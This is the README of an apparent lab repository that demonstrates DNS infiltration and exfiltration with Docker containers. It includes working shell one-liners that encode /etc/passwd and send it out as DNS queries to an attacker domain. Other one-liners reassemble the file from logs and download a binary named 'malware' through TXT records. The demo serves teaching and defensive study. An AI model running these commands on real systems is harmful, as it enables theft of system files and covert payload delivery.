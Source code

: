 # DNS infiltration and exfiltration demo
This repository contains codes and examples used for an internal article.
## Screeshots
![screenshot](/assets/screenshot.jpg)
## Requirements
- docker
- docker-compose
## Usage
Create three containers and two networks:
```
$ docker-compose up -d

```
Open three different terminals and connect to each container:
```
docker exec -ti acme-server sh
docker exec -ti acme-dns sh
docker exec -ti attacker-dns sh

```
## Examples
Send a file through DNS queries:
```
gzip -c /etc/passwd | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "dig +short c"n"."$1".attacker.tk"; n++}' | sh
```
Reassemble file from query log file:
```
grep "query\[A\] c" /var/log/dnsmasq.log | awk '{print $6}' | sort -u | cut -d "." -f2 | base64 -d | gunzip -d > mynewfile
```
Create TXT record from "sl" binary:
```
gzip -c /usr/bin/sl | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "txt-record=c"n".attacker.tk,"$1; n++}'
```
Get a binary quering TXT records:
```
for n in $(seq 100 222);do echo "dig txt +short c$n.attacker.tk" ;done | sh | tr -d '"' | base64 -d | gzip -d > malware
```